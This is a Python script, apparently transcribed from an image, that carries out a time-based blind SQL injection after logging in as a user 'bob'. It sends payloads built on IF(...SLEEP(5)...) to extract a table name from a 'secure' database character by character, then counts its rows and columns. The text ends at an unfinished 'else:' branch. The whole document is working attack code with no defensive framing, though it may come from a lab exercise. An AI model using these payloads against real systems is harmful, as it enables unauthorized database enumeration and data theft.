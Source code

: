 ```python

# Function to send a blind SQLi request and check for a delay
def send_time_based_payload(payload):
    start_time = time.time()
    response = session.get(sqli_url + payload)
    end_time = time.time()
    return end_time - start_time

# Check if login was successful
if 'Welcome bob' in login_response.text:
    print("Successfully logged in as bob")

    # Step 1: Find the length of the table name in the database 'secure'
    table_name_length = 0
    for i in range(1, 100):  # Assuming table name length is between 1 and 100
        payload = f"' AND IF((SELECT LENGTH(table_name) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secure' LIMIT 1) = {i}, SLEEP(5), 0) -- "
        if send_time_based_payload(payload) > 4:
            table_name_length = i
            break

    print(f"Table name length: {table_name_length}")

    # Step 2: Find the table name in the database 'secure'
    table_name = ''
    characters = string.ascii_lowercase + string.digits + '_'
    for i in range(1, table_name_length + 1):
        for char in characters:
            payload = f"' AND IF((SELECT SUBSTRING(table_name,{i},1) FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'secure' LIMIT 1) = '{char}', SLEEP(5), 0) -- "
            if send_time_based_payload(payload) > 4:
                table_name += char
                print(f"Table name: {table_name}")  # Print the table name as we find each character
                break

    print(f"Table name: {table_name}")

    # Assuming table_name was found correctly, continue to find row and column count

    # Find the number of rows in the discovered table
    row_count = 0
    for i in range(1, 1001):  # Assuming the row count is between 1 and 1000
        payload = f"' AND IF((SELECT COUNT(*) FROM `secure`.`{table_name}`) = {i}, SLEEP(5), 0) -- "
        if send_time_based_payload(payload) > 4:
            row_count = i
            break

    print(f"Row count in table {table_name}: {row_count}")

    # Find the number of columns in the discovered table
    column_count = 0
    for i in range(1, 101):  # Assuming column count is between 1 and 100
        payload = f"' AND IF((SELECT COUNT(*) FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema = 'secure' AND table_name = '{table_name}') = {i}, SLEEP(5), 0) -- "
        if send_time_based_payload(payload) > 4:
            column_count = i
            break

    print(f"Column count in table {table_name}: {column_count}")

else:
```